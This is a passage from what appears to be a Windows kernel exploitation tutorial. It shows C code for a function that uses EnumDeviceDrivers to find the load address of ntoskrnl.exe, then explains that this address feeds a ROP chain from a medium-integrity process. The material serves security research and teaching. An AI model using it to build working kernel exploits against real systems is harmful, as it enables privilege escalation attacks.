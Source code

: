 ```c
		//
		// Bail out
		// 
		goto exit;
	}

	//
	// Assign lpcbNeeded to cb (cb needs to be size of the lpImageBase
	// array).
	//
	cb = lpcbNeeded;

	//
	// Invoke EnumDeviceDrivers properly.
	//
	BOOL getAddrs = EnumDeviceDrivers(
		lpImageBase,
		cb,
		&lpcbNeeded
	);

	//
	// Error handling
	//
	if (!getAddrs)
	{
		//
		// Bail out
		//
		goto exit;
	}

	//
	// The first element of the array is ntoskrnl.exe.
	//
	return (ULONG64)lpImageBase[0];

//
// Execution reaches here if an error occurs
//
exit:

	//
	// Return an error.
	//
	return (ULONG64)1;
}
```

The above function called `resolventBase()` returns the base address of `ntoskrnl.exe` (this type of enumeration couldn't be done in a low-integrity process. Again, we are assuming medium integrity). This value can then be passed in to our `constructROPChain()` function.

